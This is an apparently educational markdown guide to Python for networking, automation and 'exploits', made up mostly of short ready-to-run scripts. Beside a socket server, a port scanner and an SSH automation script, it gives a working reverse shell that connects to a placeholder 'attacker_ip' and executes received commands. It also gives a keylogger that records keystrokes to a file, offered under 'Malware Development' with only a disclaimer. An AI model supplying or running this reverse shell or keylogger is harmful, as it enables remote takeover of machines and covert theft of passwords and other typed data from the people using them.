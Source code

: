 ### Python for Networking, Automation, and Exploits

#### 1. Introduction
Python is a powerful language for networking, automation, and penetration testing. It is widely used in cybersecurity for tasks such as network scanning, reverse shells, exploit development, and malware creation.

---

### 2. Networking with Python

#### 2.1 Socket Programming Basics
```python
import socket

host = '127.0.0.1'
port = 8080

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind((host, port))
s.listen(5)

print(f'Listening on {host}:{port}')
while True:
    client, addr = s.accept()
    print(f'Connection from {addr}')
    client.send(b'Hello, you are connected!')
    client.close()
```

#### 2.2 Simple Port Scanner
```python
import socket

def port_scan(target, ports):
    for port in ports:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(1)
        result = s.connect_ex((target, port))
        if result == 0:
            print(f'Port {port} is open')
        s.close()

port_scan('127.0.0.1', [21, 22, 80, 443, 8080])
```

---

### 3. Automation with Python

#### 3.1 Automating SSH Connections
```python
import paramiko

host = "192.168.1.1"
username = "user"
password = "password"

client = paramiko.SSHClient()
client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
client.connect(host, username=username, password=password)
stdin, stdout, stderr = client.exec_command("ls -l")
print(stdout.read().decode())
client.close()
```

---

### 4. Reverse Shells

#### 4.1 Simple Reverse Shell
```python
import socket
import subprocess

host = "attacker_ip"
port = 4444

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))

while True:
    command = s.recv(1024).decode()
    if command.lower() == "exit":
        break
    output = subprocess.run(command, shell=True, capture_output=True)
    s.send(output.stdout + output.stderr)

s.close()
```

---

### 5. Exploit Development

#### 5.1 Buffer Overflow Example
```python
buffer = "A" * 1000  # Adjust length based on target vulnerability
print(buffer)
```

---

### 6. Malware Development (Ethical Usage Only)

#### 6.1 Keylogger
```python
from pynput.keyboard import Listener

def log_keystrokes(key):
    with open("log.txt", "a") as file:
        file.write(str(key) + "\n")

with Listener(on_press=log_keystrokes) as listener:
    listener.join()
```

---

### 7. Conclusion
Python is a versatile tool for ethical hacking, networking, and automation. Use these scripts responsibly for educational and security purposes.

**Disclaimer:** This guide is for educational purposes only. Unauthorized use of these scripts may be illegal.

---

*Happy Hacking!*
